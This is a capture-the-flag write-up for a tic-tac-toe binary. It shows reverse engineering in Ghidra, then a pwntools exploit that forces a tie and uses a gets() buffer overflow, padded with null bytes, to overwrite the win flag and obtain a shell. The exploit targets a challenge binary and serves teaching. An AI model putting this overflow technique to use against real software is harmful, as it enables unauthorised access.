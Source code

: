 # Tic Tac Toe
Created by: Sasha (@kyrili on Discord)  
Writeup by: Ethan Andrews (UofUsec)

## Description
I bet you can't beat me at tic tac toe.

## Writeup
### Initial Look
By running the program, it appears to be a tictactoe game between a CPU. 

![image](https://github.com/user-attachments/assets/d662e6d8-db36-44dc-81ee-0a312033d0b1)

### Information Gathering
We can analyze it using Ghidra to see where potential vulnerabilities are. Using Ghidra, we can analyze the c code and change variables names to deobfuscate and perform some reverse engineering.
The CPU choices appear to be hard coded rather than based on an algorithm.

![image](https://github.com/user-attachments/assets/f52997ab-ad25-4f58-ae2f-c8e01eaf9c21)

Now we will search for the win conditions. We find the following code that shows the conditions necessary to win.

![image](https://github.com/user-attachments/assets/7dd6ef31-66fb-4579-8d97-235dacdabede)

So it appears that in order to win, the player must tie, and then have a certain variable (renamed tie_or_win) set to a non-zero value. 

### Finding Vulnerabilities
We also find several vulnerabilities in the code. The code utilizes the gets() function to read in user input. This allows for buffer overflow whenever user input is being queried. We also note that 
it only considers the first character of the input as the move, so after the overflow occurs, it will still register it as a valid move.

![image](https://github.com/user-attachments/assets/108764f6-7911-413c-973c-dcd8a66ecd63)

We can also use ghidra to determine where the variables are located. Luckily, the tie_or_win value is above the user input buffers allowing for buffer overflow directly into the variable.

![image](https://github.com/user-attachments/assets/58f112fa-8990-4565-92e8-c46d2f70c1a9)
![image](https://github.com/user-attachments/assets/276b3890-e858-401b-98d8-13ea335aa057)

### Solution
We can use pwntools to perform the exploit.
```
from pwn import *

p = process("./tictactoe")

# Replace with remote server when exploit works
# p = remote("challenge.utctf.live...

```

Because we need to tie first, we will send the moves required to tie. We will leave the last move without a new line character
because we want to overflow on the last move.

```
p.send(b"o\n")
p.send(b"5\n")
p.send(b"3\n")
p.send(b"4\n")
p.send(b"8")
```

Because we are overflowing on the last move, we need to overflow from the position of the user_move_4 buffer (stack - 0x55) to the 
tie_or_win value (stack - 0x10). This means we have to overflow it by `stack - 0x10 - (stack - 0x55) = 0x45` bytes or 69 in decimal. 
Because we already sent one byte (the character 8), we will additionally send another 68 bytes and then another character to 
make the tie_or_win variable non zero.

```
p.send(b"\x90"*68 + b"\x01" + b"\n")
```

So that should be it right? Unfortunately, when I run the exploit, it doesn't accept the last move:

![image](https://github.com/user-attachments/assets/2dac56ff-b430-4465-a374-ca21ed5be5a3)

To figure out what's going on, we'll look at how the program registers what valid moves are. 

![image](https://github.com/user-attachments/assets/6954c8da-fb15-4160-a288-1b7a7354d515)

The key insight is that it checks whether the board state at that value is equal to zero. Unfortunately, the board state
is in between the user input buffer and the tie_or_win variable.

![image](https://github.com/user-attachments/assets/149ecdc3-5cc1-4e04-9d04-3fb2a675d6ee)

So when we overflow, it changes all the values in the board state buffer. Luckily, we can fix this by simply using \x00 for
padding instead of \x90. This gives us the final working exploit:

```
from pwn import *

p = process("./tictactoe")

# Replace with remote server when exploit works
# p = remote("challenge.utctf.live...

p.send(b"o\n")
p.send(b"5\n")
p.send(b"3\n")
p.send(b"4\n")
p.send(b"8")
p.send(b"\x00"*68 + b"\x01" + b"\n")

p.interactive()
```

When run on the remote server, this grants access to a shell.

## Important Concepts
- Ghidra
- Buffer overflow
